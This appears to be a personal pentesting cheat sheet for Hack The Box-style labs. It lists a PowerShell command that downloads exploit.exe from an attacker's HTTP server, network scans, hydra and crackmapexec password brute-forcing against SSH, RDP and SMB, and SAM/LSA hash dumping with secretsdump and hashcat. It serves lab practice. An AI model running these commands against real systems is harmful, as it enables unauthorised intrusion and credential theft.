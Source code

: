 # sheet sheat

```shell
invoc file with powershell after created a python server ( python3 -m http.server) powershell "(new-object System.Net.WebClient).Downloadfile('[http://10.10.14.17:8000/exploit.exe](http://10.10.14.17:8000/exploit.exe)', 'exploit.exe')"

nmap -sC -sV -Pn -oA nmap/bounty 10.10.10.93

nmap -sC -sV -p- -T5 10.129.37.123

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://eforenzics.htb/assets/FUZZ.jpg

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://eforenzics.htb/assets/FUZZ.jpg -mc all -fs 0,16 -c 404


gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://eforenzics.htb/assets/imgs/


gobuster --url [http://10.10.10.93](http://10.10.10.93/)/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50

gobuster --url [http://10.10.10.93/](http://10.10.10.93/) dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x aspx

netstat -antp | grep -i list


```shell
crackmapexec winrm 10.129.252.193 -u username.list -p password.list

hydra -L username.list  -P password.list -u -f ssh://10.129.252.193:22 -t 4

rdesktop -u john -p november 10.129.252.193

evil-winrm -i 10.129.252.193 -u john -p november

ssh dennis@10.129.252.193 

hydra -L username.list  -P password.list -u -f rdp://10.129.252.193

hydra -L username.list  -P password.list -u -f smb://10.129.252.193

crackmapexec smb 10.129.252.193 -u username.list -p password.list

rdesktop -u chris -p 789456123 10.129.252.193

crackmapexec smb 10.129.42.197 -u "john" -p "november" --shares

smbclient -U john \\\\10.129.252.193\\

crackmapexec smb 10.129.42.197 -u "john" -p "november" --shares

crackmapexec smb 10.129.42.197 -u "john" -p "november"

crackmapexec smb 10.129.42.197 -u "cassie" -p "12345678910" --shares

crackmapexec smb 10.129.42.197 -u "chris" -p "789456123" --shares

crackmapexec smb 10.129.252.193 -u "cassie" -p "12345678910" --shares

smbclient -U cassie \\\\10.129.252.193\\CASSIE
```

## SAM

```shell
╰─○ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/kali/test

╰─○ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL > resultdump.txt

for NTLM
╰─○ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

╰─○ crackmapexec smb 10.129.202.137 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

╰─○ crackmapexec smb 10.129.202.137 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
